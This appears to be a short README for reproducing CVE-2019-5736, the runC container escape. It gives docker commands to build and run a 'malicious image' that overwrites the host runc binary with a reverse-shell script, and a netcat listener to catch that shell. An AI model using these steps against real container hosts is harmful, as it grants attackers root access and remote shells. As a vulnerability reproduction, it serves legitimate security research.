

### CVE 2019-5736 (runC container escape)
The exploit allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute any command in root mode.

### Re-creation Steps

## Execution on Control PoC

```sh
$ docker build -t cve:execution ./execution
$ docker run -d --rm --name control cve:execution
$ docker exec control bash
```
## Listen to the reverse shell:

Overwrites runc with a simple reverse shell bash script that connects to localhost:2345.
```sh
$ nc -nvlp 2345
```

## Execution on Malicious Image

```sh
$ docker build -t cve:malicious_image ./malicious_image
$ docker run --rm cve:malicious_image
```

## Results:


